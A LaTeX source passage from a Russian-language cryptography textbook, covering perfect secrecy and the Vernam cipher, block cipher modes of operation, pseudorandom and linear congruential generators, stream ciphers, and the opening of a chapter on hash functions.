Криптосистемы совершенной стойкости могут применяться как в современных вычислительных сетях, так и для шифрования любой бумажной корреспонденции. Основной проблемой применения данных шифров для шифрования больших объёмов информации является необходимость распространения ключей объёмом не меньшим, чем передаваемые сообщения.

\begin{definition}\label{perfect_by_probabilities}
Будем называть криптосистему \emph{совершенно криптостойкой}, если апостериорное распределение вероятностей исходного случайного сообщения $m_i \in \group{M}$ при регистрации случайного шифртекста $c_k \in \group{C}$ совпадает с априорным распределением~\cite{Gultyaeva:2010}:
	\[\forall m_j \in \group{M}, c_k \in \group{C} \hookrightarrow P \left( m = m_j | c = c_k \right) = P \left( m = m_j \right).\]
\end{definition}

Данное условие можно переформулировать в терминах статистических свойств сообщения, ключа и шифртекста как случайных величин.

\begin{definition}\label{perfect_by_enthropy}
Будем называть криптосистему \emph{совершенно криптостойкой}, если условная энтропия сообщения\index{энтропия!условная}\index{энтропия!открытого текста} при известном шифртексте равна безусловной:
\begin{gather*}
	H \left( M | C \right) = H \left( M \right),\\
	I \left( M; C \right) = 0.
\end{gather*}
\end{definition}

Можно показать, что определения~\ref{perfect_by_probabilities} и~\ref{perfect_by_enthropy} тождественны.

\section[Условие]{Условие совершенной криптостойкости}

Найдём оценку количества информации, которое содержит шифртекст $C$ относительно сообщения $M$:
\[ I(M; C) = H(M) - H(M | C). \]
Очевидны следующие соотношения условных и безусловных энтропий~\cite{GabPil:2007}:
\begin{gather*}
H(K|C)=H(K|C)+H(M|KC)=H(MK|C),\\
H(MK|C)=H(M|C)+H(K|MC)\geq H(M|C),\\
H(K)\geq H(K|C)\geq H(M|C).
\end{gather*}
Отсюда получаем:
 \[ I(M; C) = H(M) - H(M | C)\geq H(M)-H(K). \]
Из последнего неравенства следует, что взаимная информация между сообщением и шифртекстом равна нулю, если энтропия ключа не меньше энтропии сообщений либо они статистически независимы. Таким образом, условием совершенной криптостойкости является неравенство:
\[ H(M) \leq H(K).\]
%Если утверждение верно, то количество информации в шифртексте относительно открытого текста $I(M; C)$ равно нулю:
%  \[ I(M; C) = H(M) - H(M | C) = 0, \]
%так как для статистически независимых величин условная энтропия равна безусловной энтропии, то есть $H(M) = H(M | C)$.

%Функцию шифрования обозначим $E: \{ M, K \} \rightarrow C$. Процедура шифрования состоит из следующих шагов.
%\begin{itemize}
%    \item Легальный пользователь $A$ выбирает ключ $k \in K$ и секретно сообщает его легальному пользователю $B$ (дополнительная задача -- распределение ключей).
%    \item По открытому сообщению $m \in M$ и выбранному ключу $k$ вычисляют шифрованное сообщение $c = E_k(m) \in C$.
%\end{itemize}

%Основное требование при шифровании состоит в том, чтобы при выбранном ключе $k$ вычисление $c$ было лёгкой задачей для любого сообщения $m$.

%Функцию расшифрования обозначим $D: \{ C, K \} \rightarrow M$. Процедура расшифрования состоит из следующих шагов.
%\begin{itemize}
%    \item Легальный пользователь $B$ получает от $A$ секретный ключ $k \in K$.
 %   \item $B$ по принятому шифрованному сообщению $c \in C$ и известному ключу $k$ вычисляет открытое сообщение $m = D_k(c) \in M$.
%\end{itemize}

%Основное требование: при выбранном ключе $k$ вычисление $m$ должно быть лёгкой задачей для любого $c$. С другой стороны, при неизвестном ключе $k$ вычисление открытого сообщения $m$ по известному шифрованному сообщению $c$ должно быть трудной задачей для любого $c$.

%Криптостойкость шифра оценивается числом операций, необходимым для определения: открытого текста $m$ по шифртексту $c$, либо ключа шифрования $k$ по открытому тексту $m$ и шифртексту $c$.

%$M, C, K$ интерпретируются как случайные величины.
%Пусть заданы распределения вероятностей $P_m(M), P_c(C), P_k(K)$. По определению шифрование $C = E_K(M)$ -- детерминированная функция своих аргументов.
%Если при выбранном шифре оказалось, что открытый текст $M$ и шифртекст $C$ -- статистически независимые случайные величины, то считается, что такая система обладает совершенной криптостойкостью.


%\subsection{Длина ключа}

%Пусть сообщения $m\in M$ и ключи $r\in K$ являются независимыми случайными величинами. Это значит, что их совместная вероятность $P_{mk}(M, K)$ равна произведению отдельных вероятностей:
%\[P_{mk}(M, K) = P_m(M) \cdot P_k(K).\]
%Пусть $C = E_K(M)$ -- множество шифрованных текстов, $M = D_K(C)$ -- множество расшифрованных текстов. Можно найти вероятности $P_c(C), P_{mck}(M,C,K)$.

%Используя известные соотношения о безусловной и условной энтропии~\cite{GabPil:2007}, оценим энтропию открытых текстов $M$ с учётом статистической независимости $M$ и $C$:
 %   \[ H(M) = H(M | C) \leq H(MK | C) = H(K | C) + H(M | CK) = \]     \[ = H(K | C) \leq H(K). \]

%Так как энтропия открытого текста при заданном шифртексте и известном ключе равна нулю, то $H(M|CK)=0$. В результате получаем     \[ H(M) \leq H(K). \]

Обозначим длины сообщения и ключа как $L(M)$ и $L(K)$ соответственно. Известно, что $H(M) \leq L(M)$~\cite{GabPil:2007}. Равенство $H(M) = L(M)$ достигается, когда сообщения состоят из статистически независимых и равновероятных символов. Такое же свойство выполняется и для случайных ключей $H(K) \leq L(K)$. Таким образом, достаточным условием совершенной криптостойкости системы можно считать неравенство
 \[ L(M) \leq L(K)\]
при случайном выборе ключа.

%С другой стороны, энтропия открытого текста $H(M)$ характеризует длину последовательности для описания случайной величины $M$ (открытого сообщения), а $H(K)$ характеризует длину последовательности для описания ключа. Следовательно, совершенная криптостойкость возможна только тогда, когда длина ключа не меньше, чем длина шифруемого сообщения, то есть
%\[
%H(M) \leq H(K).
%\]
%Как правило, длина сообщения заранее неизвестна и ограничена большим числом. Выбрать ключ длины не меньшей, чем возможное сообщение не представляется возможным или рациональным, и один и тот же ключ (или его преобразования) используется многократно для шифрования блоков сообщения фиксированной длины. То есть, $H(K) \ll H(M)$.

На самом деле сообщение может иметь произвольную (заранее неограниченную) длину. Поэтому генерация и главным образом доставка легальным пользователям случайного и достаточно длинного ключа становятся критическими проблемами. Практическим решением этих проблем является многократное использование одного и того же ключа при условии, что его длина гарантирует вычислительную невозможность любой известной атаки на подбор ключа.

\index{криптостойкость!совершенная|)}

\section{Криптосистема Вернама}\index{криптосистема!Вернама|(}

Приведём пример системы с совершенной криптостойкостью.

Пусть сообщение представлено двоичной последовательностью длины $N$:
    \[ m = (m_1, m_2, \dots, m_N). \]
Распределение вероятностей сообщений $P_m(m)$ может быть любым. Ключ также представлен двоичной последовательностью $ k = (k_1, k_2, \dots, k_N)$ той же длины, но с равномерным распределением:
    \[ P_k(k) = \frac{1}{2^N} \]
для всех ключей.

Шифрование в криптосистеме Вернама осуществляется путём покомпонентного суммирования по модулю алфавита последовательностей открытого текста и ключа:
    \[ C = M \oplus K = (m_1 \oplus k_1, ~ m_2 \oplus k_2, \dots, m_N \oplus k_N). \]

Легальный пользователь знает ключ и осуществляет расшифрование:
    \[ M =C \oplus K = (c_1 \oplus k_1, ~ c_2 \oplus k_2, \dots, c_N \oplus k_N). \]

Найдём вероятностное распределение $N$-блоков шифртекстов, используя формулу:
\begin{multline*}
P(c = a) = P(m \oplus k = a) = \sum_{m} P(m) P(m \oplus k = a | m) = \\
= \sum_{m} P(m) P(k \oplus m) = \sum_{m} P(m) \frac{1}{2^N} = \frac{1}{2^N}. 
\end{multline*}


Получили подтверждение известного факта: сумма двух случайных величин, одна из которых имеет равномерное распределение, является случайной величиной с равномерным распределением. В нашем случае распределение ключей равномерное, поэтому распределение шифртекстов тоже равномерное.

Запишем совместное распределение открытых текстов и шифртекстов:
    \[ P(m = a, c = b) ~=~ P(m = a) ~ P(c = b | m = a). \]

Найдём условное распределение:
\begin{multline*}
    P(c = b | m = a) = P(m \oplus k = b | m = a) = \\
    = P(k = b \oplus a | m = a) = P(k = b \oplus a) = \frac{1}{2^N},
\end{multline*}
так как ключ и открытый текст являются независимыми случайными величинами. Итого:
    \[ P(c=b | m=a) = \frac{1}{2^N}. \]

Подстановка правой части этой формулы в формулу для совместного распределения даёт
    \[ P(m=a,c=b)=P(m=a)\frac{1}{2^N}, \]
что доказывает независимость шифртекстов и открытых текстов в этой системе. По доказанному выше, количество информации в шифртексте относительно открытого текста равно нулю. Это значит, что рассмотренная криптосистема Вернама обладает совершенной секретностью (криптостойкостью) при условии, что для каждого $N$-блока (сообщения) генерируется случайный (одноразовый) $N$-ключ.

\index{криптосистема!Вернама|)}

\input{unicity_distance}


\chapter{Блочные шифры}\label{chapter-block-ciphers}\index{шифр!блочный|(}

\input{block_ciphers}

\input{lucifer}

\input{Feistel_cipher}

\input{DES}

\input{GOST_28147-89}

\input{AES}

\input{GOST_R_34.12-2015}

\section{Режимы работы блочных шифров}\label{section-block-chaining}
\selectlanguage{russian}

Перед шифрованием открытый текст $M$ разбивают на части $M_1, M_2, \dots, M_n$, называемые \emph{блоками шифрования}\index{блок!шифрования}. Размер блока зависит от используемого блочного шифра, и, как упоминалось ранее, для шифра <<Магма>>\index{шифр!Магма} он составляет 64 бита, для AES\index{шифр!AES} и шифра <<Кузнечик>>\index{шифр!Кузнечик} -- 128 бит.
    \[ M = M_1 || M_2 || \dots || M_i. \]

Размер открытого текста может быть не кратен размеру блока шифрования. В этом случае для последнего блока применяют процедуру дополнения (удлинения) до стандартного размера. Процедура должна быть обратимой: после расшифрования последнего блока пакета лишние байты необходимо обнаружить и удалить. Некоторые способы дополнения:
\begin{itemize}
  \item добавить один байт со значением $128$, а остальные байты принять за нулевые;
  \item определить, сколько байтов надо добавить к последнему блоку, например $b$, и добавить $b$ байтов со значением $b$ в каждом.
\end{itemize}

После шифрования всех блоков открытого текста (блоков шифрования) получается набор блоков шифртекста $C_1, C_2, C_3, \dots, C_n$. Обычно размер этих блоков равен размеру блока шифрования (точно не может быть меньше блока шифрования). Процедура, по которой этот из этого набора блоков получается итоговый шифртекст, называется режимом работы блочного шифра. Некоторые режимы работы могут оперировать не только блоками шифртекста, но и исходными блоками шифрования, номерами блоков и специальными векторами инициализации.

Существует несколько режимов работы блочных шифров: режим электронной кодовой книги, режим шифрования зацепленных блоков, режим обратной связи, режим шифрованной обратной связи, режим счётчика. Рассмотрим особенности каждого из этих режимов.

\subsection{Электронная кодовая книга}

В режиме электронной кодовой книги (\langen{Electronic Code Book, ECB}) открытый текст в пакете разделён на блоки
    \[ \left[ M_1, M_2, \dots, M_{n-1}, M_n \right]. \]

В процессе шифрования каждому блоку $M_j$ ставится в соответствие шифртекст $C_j$, определяемый с помощью ключа $K$:
    \[ C_j = E_K(M_j), ~ j = 1, 2, \dots, n. \]

Если в открытом тексте есть одинаковые блоки, то в шифрованном тексте им также соответствуют одинаковые блоки. Это даёт дополнительную информацию для криптоаналитика, что является недостатком этого режима. Другой недостаток состоит в том, что криптоаналитик может подслушивать, перехватывать, переставлять, воспроизводить ранее записанные блоки, нарушая конфиденциальность\index{конфиденциальность} и целостность\index{целостность} информации. Поэтому при работе в режиме электронной кодовой книги нужно вводить аутентификацию сообщений.

Шифрование в режиме электронной кодовой книги не использует сцепление блоков и синхропосылку\index{синхропосылка} (вектор инициализации)\index{вектор инициализации}. Поэтому для данного режима применима атака на различение сообщений, так как два одинаковых блока или два одинаковых открытых текста шифруются идентично.

На рис.~\ref{fig:ecb-demo} приведён пример шифрования графического файла морской звезды в формате BMP, 24 бита цветности на пиксель (рис.~\ref{fig:starfish}), блочным шифром AES с длиной ключа 128 бит в режиме электронной кодовой книги (рис.~\ref{fig:starfish-aes-128-ecb}). В начале зашифрованного файла был восстановлен стандартный заголовок формата BMP. Как видно, в зашифрованном файле изображение всё равно различимо.
\begin{figure}[!ht]
    \centering
    \subcaptionbox{Исходный рисунок\label{fig:starfish}}{ \includegraphics[width=0.45\textwidth]{pic/starfish}}
    ~~~
    \subcaptionbox{Рисунок, зашифрованный AES-128\label{fig:starfish-aes-128-ecb}}{ \includegraphics[width=0.45\textwidth]{pic/starfish-aes-128-ecb}}
    \caption{Шифрование в режиме электронной кодовой книги\label{fig:ecb-demo}}
\end{figure}
BMP файл в данном случае содержит в самом начале стандартный заголовок (ширина, высота, количество цветов), и далее идёт массив 24-битовых значений цвета пикселей, взятых построчно сверху вниз. В массиве много последовательностей нулевых байтов, так как пиксели белого фона кодируются 3 нулевыми байтами. В AES размер блока равен 16 байтам, и, значит, каждые $\frac{16}{3}$ подряд идущих пикселей белого фона шифруются одинаково, позволяя различить изображение в зашифрованном файле.

%На рис.~\ref{fig:ecb-demo} приведён пример шифрования графического файла логотипа Википедии в формате BMP, 24 бита цветности на пиксель (рис.~\ref{fig:wikilogo}), блочным шифром AES с длиной ключа 128 бит в режиме электронной кодовой книги (рис.~\ref{fig:wikilogo-aes-128-ecb}). В начале зашифрованного файла был восстановлен стандартный заголовок BMP формата. Как видно, на зашифрованном рисунке возможно даже прочитать надпись.
%\begin{figure}[!ht]
%    \centering
%    \subfloat[Исходный рисунок]{\label{fig:wikilogo}\includegraphics[width=0.45\textwidth]{pic/wikilogo}}
%    ~~~
%    \subfloat[Рисунок, зашифрованный AES-128]{\label{fig:wikilogo-aes-128-ecb}\includegraphics[width=0.45\textwidth]{pic/wikilogo-aes-128-ecb}}
%    \caption{Шифрование в режиме электронной кодовой книги.}
%    \label{fig:ecb-demo}
%\end{figure}

%Возможно воссоздание структуры информации -- например, пингвин на рис.~\ref{fig:tux-ecbmode}. Картинка с пингвином записана в формате BMP и зашифрована DES в режиме электронной кодовой книги.
%\begin{figure}[!ht]
%    \centering
%    \includegraphics[width=0.3\textwidth]{pic/tux-ecb}
%    \caption{Картинка с пингвином, зашифрованная в режиме электронной кодовой книги.}
%    \label{fig:tux-ecbmode}
%\end{figure}


\subsection{Сцепление блоков шифртекста}

В режиме сцепления блоков шифртекста (\langen{Cipher Block Chaining, CBC}) перед шифрованием текущего блока открытого текста предварительно производится его суммирование по модулю $2$ с предыдущим блоком зашифрованного текста, что и осуществляет <<сцепление>> блоков. Процедура шифрования имеет вид:
\[ \begin{array}{l}
    C_j = E_K(M_j \oplus C_{j-1}), ~ j = 1, 2, \dots, n,
\end{array} \]
где $C_0 = \textrm{IV}$ (сокр. от \langen{Initialization Vector}) -- блок, называемый вектором инициализации. Другое название -- синхропосылка.

Благодаря сцеплению, \emph{одинаковым} блокам открытого текста соответствуют \emph{различные} шифрованные блоки. Это затрудняет криптоаналитику статистический анализ потока шифрованных блоков.

На приёмной стороне расшифрование осуществляется по правилу:
\[ \begin{array}{l}
    D_K(C_j) = M_j \oplus C_{j-1}, ~ j=1, 2, \dots, n,\\
    M_{j} = D_K(C_j) \oplus C_{j-1}.
\end{array} \]

Блок $C_0 = \textrm{IV}$ должен быть известен легальному получателю шифрованных сообщений. Обычно криптограф выбирает его случайно и вставляет на первое место в поток шифрованных блоков. Сначала передают блок $C_0$, а затем шифрованные блоки $C_1, C_2, \ldots, C_n$.

В разных пакетах блоки $C_0$ должны выбираться независимо. Если их выбрать одинаковыми, то возникают проблемы, аналогичные проблемам в режиме ECB. Например, часто первые нешифрованные блоки $M_1$ в разных пакетах бывают одинаковыми. Тогда одинаковыми будут и первые шифрованные блоки.

Однако случайный выбор векторов инициализации также имеет свои недостатки. Для выбора такого вектора необходим хороший генератор случайных чисел. Кроме того, каждый пакет удлиняется на один блок.

Для каждого сеанса передачи пакета нужны такие процедуры выбора $C_0$, которые известны криптографу и легальному пользователю. Одним из решений является использование так называемых \emph{одноразовых меток}. Каждому сеансу присваивается уникальное число. Его уникальность состоит в том, что оно используется только один раз и никогда не должно повторяться в других пакетах. В англоязычной научной литературе оно обозначается как \emph{Nonce}, то есть сокращение от <<Number used once>>\index{одноразовая метка}.

Обычно одноразовая метка состоит из номера сеанса и дополнительных данных, обеспечивающих уникальность. Например, при двустороннем обмене шифрованными сообщениями одноразовая метка может состоять из номера сеанса и индикатора направления передачи. Размер одноразовой метки должен быть равен размеру шифруемого блока. После определения одноразовой метки $\textrm{Nonce}$ вектор инициализации вычисляется в виде:
    \[ C_0 = \textrm{IV} = E_K(\textrm{Nonce}). \]

Этот вектор используется в данном сеансе для шифрования открытого текста в режиме CBC. Заметим, что блок $C_0$ передавать в сеансе необязательно, если приёмная сторона знает заранее дополнительные данные для одноразовой метки. Вместо этого достаточно вначале передать только номер сеанса в открытом виде. Принимающая сторона добавляет к нему дополнительные данные и вычисляет блок $C_0$, необходимый для расшифрования в режиме CBC. Это позволяет сократить издержки, связанные с удлинением пакета. Например, для шифра AES длина блока $C_0$ равна $16$ байтов. Если число сеансов ограничить величиной $2^{32}$ (вполне приемлемой для большинства приложений), то для передачи номера пакета понадобится только $4$ байта.


\subsection{Обратная связь по выходу}

В предыдущих режимах входными блоками для устройств шифрования были непосредственно блоки открытого текста.
В режиме обратной связи по выходу (OFB от Output FeedBack) блоки открытого текста непосредственно на вход устройства шифрования не поступают. Вместо этого устройство шифрования генерирует псевдослучайный поток байтов, который суммируется по модулю $2$ с открытым текстом для получения шифрованного текста. Шифрование осуществляют по правилу:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(K_{j-1}), ~ j = 1, 2, \dots, n, \\
    C_j = K_j \oplus M_j.
\end{array} \]

Здесь текущий ключ $K_j$ есть результат шифрования предыдущего ключа $K_{j-1}$. Начальное значение $K_0$ известно криптографу и легальному пользователю. На приёмной стороне расшифрование выполняют по правилу:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(K_{j-1}), ~ j = 1, 2, \dots, n, \\
    M_j = K_j \oplus C_j.
\end{array} \]

Как и в режиме CBC, вектор инициализации $\textrm{IV}$ может быть выбран случайно и передан вместе с шифрованным текстом, либо вычислен на основе одноразовых меток. Здесь особенно важна уникальность вектора инициализации.

Достоинство этого режима состоит в полном совпадении операций шифрования и расшифрования. Кроме того, в этом режиме не надо проводить операцию дополнения открытого текста.


\subsection{Обратная связь по шифрованному тексту}

В режиме обратной связи по шифрованному тексту (CFB от Cipher FeedBack) ключ $K_j$ получается с помощью процедуры шифрования предыдущего шифрованного блока $C_{j-1}$. Может быть использован не весь блок $C_{j-1}$, а только его часть. Как и в предыдущем случае, начальное значение ключа $K_0$ известно криптографу и легальному пользователю:
\[ \begin{array}{l}
    K_0 = \textrm{IV}, \\
    K_j = E_K(C_{j-1}), ~ j = 1, 2, \dots, n,\\
    C_j = K_j \oplus M_j.
\end{array} \]

У этого режима нет особых преимуществ по сравнению с другими режимами.


\subsection{Счётчик}

В режиме счётчика (CTR от Counter) правило шифрования имеет вид, похожий на режим обратной связи по выходу (OFB), но позволяющий вести независимое (параллельное) шифрование и расшифрование блоков:
\[ \begin{array}{l}
    K_j = E_K(\textrm{Nonce} ~\|~ j - 1), ~ j = 1, 2, \dots, n, \\
    C_j = M_j \oplus K_j,
\end{array} \]
где $\textrm{Nonce} ~\|~ j - 1$ -- конкатенация битовой строки одноразовой метки $\textrm{Nonce}$ и номера блока, уменьшенного на единицу.
%Для стандарта AES значение $\textrm{Nonce}$ занимает 16 бит, номер блока -- 48 бит. С одним ключом выполняется шифрование $2^{48}$ блоков.

Правило расшифрования идентичное:
\[ \begin{array}{l}
    M_j = C_j \oplus K_j. \\
\end{array} \]


\section{Некоторые свойства блочных шифров}

\input{feistel_network_reversibility}

\input{Feistel_cipher_without_s_blocks}

\input{Avalanche_effect}

\input{double_and_triple_ciphering}

\index{шифр!блочный|)}

\chapter{Генераторы псевдослучайных чисел}\label{chapter-generators}
\selectlanguage{russian}

Для работы многих криптографических примитивов необходимо уметь получать случайные числа:
\begin{itemize}
	\item вектор инициализации для отдельных режимов сцепления блоков должен быть случайным числом (см. раздел~\ref{section-block-chaining});
	\item для генерации пар открытых и закрытых ключей необходимы случайные числа (см. главу~\ref{chapter-public-key});
	\item стойкость многих протоколов распределения ключей (см. главу~\ref{chapter-key-distribution-protocols}) основывается в том числе на выработке случайных чисел (\langen{nonce}), которые не может предугадать злоумышленник.
\end{itemize}

Генератором случайных чисел (\langen{random number generator})\index{генератор!случайных чисел} мы будем называть процесс\footnote{Есть и строгое математическое определение генератора в общем смысле. Генератором называется функция $g: \left\{0, 1\right\}^{n} \to \left\{0, 1\right\}^{q\left(n\right)}$, вычислимая за полиномиальное время. Однако мы пока не будем использовать это определение, чтобы показать разницу между истинно случайными числами и псевдослучайными.}, результатом работы которого является случайная последовательность чисел, а именно такая, что, зная произвольное число предыдущих чисел последовательности (и способ их получения), даже теоретически нельзя предсказать следующее с вероятностью больше заданной. К таким случайным процессам можно отнести:

\begin{itemize}
	\item результат работы счётчика элементарных частиц, работа с которым включена в лабораторный практикум по общей физике для студентов первого курса МФТИ;
	\item время между нажатиями клавиш на клавиатуре персонального компьютера или расстояние, которое проходит <<мышь>> во время движения;
	\item время между двумя пакетами, полученными сетевой картой;
	\item тепловой шум, измеряемый звуковой картой на входе аналогового микрофона, даже в отсутствие самого микрофона.
\end{itemize}

Хотя для всех этих процессов можно предсказать приблизительное значение (чётное или нечётное), его последний бит будет оставаться достаточно случайным для практических целей. С учётом данной поправки их можно называть надёжными или качественными генераторами случайных чисел.

Однако к генератору случайных чисел предъявляются и другие требования. Кроме уже указанного критерия \emph{качественности} или \emph{надёжности}, генератор должен быть \emph{быстрым} и \emph{дешёвым}. Быстрым -- чтобы получить большой объём случайной информации за заданный период времени. И дешёвым -- чтобы его можно было бы использовать на практике. Количество случайной информации от перечисленных выше генераторов составляет не более десятков килобайт в секунду (для теплового шума) и значительно меньше, если мы будем требовать ещё и равномерность распределения полученных случайных чисел.

С целью получения большего объёма случайной информации используют специальные алгоритмы, которые называют генераторами псевдослучайных чисел (ГПСЧ). ГПСЧ -- это детерминированный алгоритм, выходом которого является последовательность чисел, обладающая свойством случайности. Работу ГПСЧ можно описать следующей моделью. На подготовительном этапе оперативная память, используемая алгоритмом, заполняется начальным значением (\langen{seed}). Далее на каждой итерации своей работы ГПСЧ выдаёт на выход число, которое является функцией от состояния оперативной памяти алгоритма и меняет содержимое своей памяти по определённым правилам. Содержимое оперативной памяти называется \emph{внутренним состоянием} генератора.

Как и у любого алгоритма, у ГПСЧ есть определённый размер используемой оперативной памяти\footnote{Только алгоритмы с фиксированным размером используемой оперативной памяти и можно называть \emph{генераторами} в строгом математическом смысле этого слова, как следует из определения.}. Исходя из практических требований, предполагается, что размер оперативной памяти для ГПСЧ сильно ограничен. Так как память алгоритма ограничена, то ограничено и число различных внутренних состояний алгоритма. В силу того что выдаваемые ГПСЧ числа являются функцией от внутреннего состояния, то любой ГПСЧ, работающий с ограниченным размером оперативной памяти и не принимающий извне дополнительной информации, будет иметь \emph{период}. Для генератора с памятью в $n$ бит максимальный период, очевидно, равен $2^n$.

Качество детерминированного алгоритма, то есть то, насколько полученная последовательность обладает свойством случайной, можно оценить с помощью тестов, таких как набор тестов NIST (\langen{National Institute of Standards and Technology}, США,~\cite{NIST:2001}). Данный набор содержит большое число различных проверок, включая частотные тесты бит и блоков, тесты максимальных последовательностей в блоке, тесты матриц и так далее.

\section{Линейный конгруэнтный генератор}\label{section-linear-congruential-generator}\index{генератор!линейный конгруэнтный}
\selectlanguage{russian}

Алгоритм был предложен Лемером (\langen{Derrick Henry Lehmer},~\cite{Lehmer:1951:1, Lehmer:1951:2}) в 1949 году. Линейный конгруэнтный генератор основывается на вычислении последовательности $x_n, x_{n+1}, \dots$, такой что:
	\[x_{n+1} = a \cdot x_n + c \mod m.\]

Числа $a, c, m$, $ 0 < a < m, 0 < c < m$, являются параметрами алгоритма.

\example
Для параметров $a = 2, c = 3, m = 5$ и начального состояния $x_0 = 1$ получаем последовательность: $0, 3, 4, 1, 0, \dots$
\exampleend

Максимальный период ограничен значением $m$. Но максимум периода достигается тогда и только тогда, когда~\cite[Линейный конгруэнтный метод]{Knuth:2001:2}:

\begin{itemize}
	\item числа $c$ и $m$ взаимно просты\index{числа!взаимно простые};
	\item число $a - 1$ кратно каждому простому делителю числа $m$;
	\item число $a - 1$ кратно 4, если $m$ кратно 4.
\end{itemize}

Конкретная реализация алгоритма может использовать в качестве выхода либо внутреннее состояние целиком (число $x_n$), либо его отдельные биты. Линейный конгруэнтный генератор является простым (то есть <<дешёвым>>) и быстрым генератором. Результат его работы -- статистически качественная псевдослучайная последовательность. Линейный конгруэнтный генератор нашёл широкое применение в качестве стандартной реализации функции для получения псевдослучайных чисел в различных компиляторах и библиотеках времени исполнения (см. таблицу~\ref{table:lcg}). Забегая вперёд, предупредим читателя, что его использование в криптографии недопустимо. Зная два последовательных значения выхода генератора ($x_n$ и $x_{n+1}$) и единственный параметр схемы $m$, можно решить систему уравнений и найти $a$ и $c$, чего будет достаточно для нахождения всей дальнейшей (или предыдущей) части последовательности. Параметр $m$, в свою очередь, можно найти перебором, начиная с некоторого $\min(X): X \geq x_i$, где $x_i$ -- наблюдаемые элементы последовательности.

\begin{landscape}
{\renewcommand{\arraystretch}{1.5}
\begin{table}[h]
\begin{tabular}{|p{0.34\linewidth}|r|r|r|l|}
\hline
									& a		& c		& m		& используемые биты	\\
\hline
\cite{Press:2007}~Numerical Recipes: The Art of Scientific Computing	& 1664525	& 1013904223	& $2^{32}$	& 			\\
\cite{Knuth:2005}~MMIX in The Art of Computer Programming & \tiny{6364136223846793005} & \tiny{1442695040888963407}	& $2^{64}$	&	\\
\hline
\cite{Entacher:1997}~ANSI C:
\tiny{(Watcom, Digital Mars, CodeWarrior, IBM VisualAge C/C++)}		& 1103515245	& 12345		& $2^{31}$	& биты с 30 по 16-й	\\
\cite{Sirca:Horvat:2012}~glibc						& 1103515245	& 12345		& $2^{31}$	& биты с 30 по 0-й	\\
C99, C11 (ISO/IEC 9899) 						& 1103515245	& 12345		& $2^{32}$	& биты с 30 по 16-й	\\
C++11 (ISO/IEC 14882:2011) 						& 16807		& 0		& $2^{31} - 1$	& 			\\
Apple CarbonLib             			                       	& 16807		& 0		& $2^{31} - 1$	& 			\\
Microsoft Visual/Quick C/C++                                    	& 214013	& 2531011	& $2^{32}$	& биты с 30 по 16-й	\\
\hline
\cite{Bucknall:2001}~Borland Delphi					& 134775813	& 1		& $2^{32}$	& \\
\cite{MS-VBRAND:2004}~Microsoft Visual Basic \tiny{(версии 1--6)}	& 1140671485	& 12820163	& $2^{24}$	& 			\\
\cite{Mak:2003}~ Sun (Oracle) Java Runtime Environment			& 25214903917	& 11		& $2^{48} - 1$	& биты с 47 по 16-й	\\
\hline
\end{tabular}
\caption{Примеры параметров линейного конгруэнтного генератора в различных книгах, компиляторах и библиотеках времени исполнения\label{table:lcg}}
\end{table}
}
\end{landscape}


\input{lfsr}

\input{crypto-random}

\input{bbs_generator}

\section{КСГПСЧ на основе РСЛОС}

Как уже упоминалось ранее, использование РСЛОС в качестве ГПСЧ не является криптографически стойким. Однако можно использовать комбинацию из нескольких регистров сдвига, чтобы в результате получить быстрый, простой (дешёвый) и надёжный (криптографически стойкий) генератор псевдослучайных чисел.

\input{generators_with_multiple_shift_registers}

\input{generators_with_nonlinear_transformations}

\input{majority_generators}


\chapter{Потоковые шифры}\label{chapter-stream-ciphers}
\selectlanguage{russian}

Потоковые шифры осуществляют посимвольное шифрование открытого текста. Под символом алфавита открытого текста могут пониматься как отдельные биты (побитовое шифрование), так и байты (побайтовое шифрование). Поэтому можно говорить о в какой-то мере условном разделении блочных и потоковых шифров: например, 64-битная буква - один блок. Общий вид большинства потоковых шифров приведён на рис.~\ref{fig:stream-cipher}.

\begin{figure}[hb]
	\centering
	\includegraphics[width=0.66\textwidth]{pic/stream-cipher}
  \caption{Общая структура шифрования с использованием потоковых шифров}
  \label{fig:stream-cipher}
\end{figure}

\begin{itemize}
	\item Перед началом процедуры шифрования отправитель и получатель должны обладать общим секретным ключом.
	\item Секретный ключ используется для генерации инициализирующей последовательности (\langen{seed}) генератора псевдослучайной последовательности.
	\item Генераторы отправителя и получателя используются для получения одинаковой псевдослучайной последовательности символов, называемой \emph{гаммой}\index{гамма}. Последовательности одинаковые, если для их получения использовались одинаковые ГПСЧ, инициализированные одной и той же инициализирующей последовательностью, при условии, что генераторы детерминированные.
	\item Символы открытого текста на стороне отправителя складываются с символами гаммы, используя простейшие обратимые преобразования. Например, побитовое сложение по модулю 2 (операция <<исключающее или>>, \langen{XOR}). Полученный шифртекст передаётся по каналу связи.
	\item На стороне легального получателя с символами шифртекста и гаммы выполняется обратная операция (для XOR это будет просто повторный XOR) для получения открытого текста.
\end{itemize}

Очевидно, что криптостойкость потоковых шифров непосредственно основана на стойкости используемых ГПСЧ. Большой размер инициализирующей последовательности, длинный период, большая линейная сложность -- необходимые атрибуты используемых генераторов. Одним из преимуществ потоковых шифров по сравнению с блочными является более высокая скорость работы.

Одним из примеров ненадёжных потоковых шифров является семейство A5\index{шифр!A5} (A5/1, A5/2), кратко рассмотренное в разделе~\ref{section:majority_generators}. Мы также рассмотрим вариант простого в понимании шифра RC4, не основанного на РСЛОС.

\input{rc4}


\chapter{Криптографические хэш-функции}\label{chapter-hash-functions}
\selectlanguage{russian}

Хэш-функции возникли как один из вариантов решения задачи <<поиска по словарю>>. Задача состояла в поиске в памяти компьютера (оперативной или постоянной) информации по известному ключу. Возможным способом решения было хранение, например, всего массива ключей (и указателей на содержимое) в отсортированном в некотором порядке списке или в виде бинарного дерева. Однако наиболее производительным с точки зрения времени доступа (при этом обладая допустимой производительностью по времени модификации) стал метод хранения в виде хэш-таблиц. Этот метод ведёт своё происхождение из стен компании IBM (как и многое другое в программировании).

Метод хэш-таблиц подробно разобран в любой современной литературе по программированию~\cite{Knuth:2001:3}. Напомним лишь, что его идея состоит в разделении множества ключей по корзинам (\langen{bins}) в зависимости от значения некоторой функции, вычисляемой по значению ключа. Причём функция подбирается таким образом, чтобы в разных корзинах оказалось одинаковое число (в идеале -- не более одного) ключей. При этом сама функция должна быть быстро вычисляемой, а её значение должно легко конвертироваться в натуральное число, которое не превышает число корзин.

\emph{Хэш-функцией} (\langen{hash function}) называется отображение, переводящее аргумент произвольной длины в значение фиксированной длины.

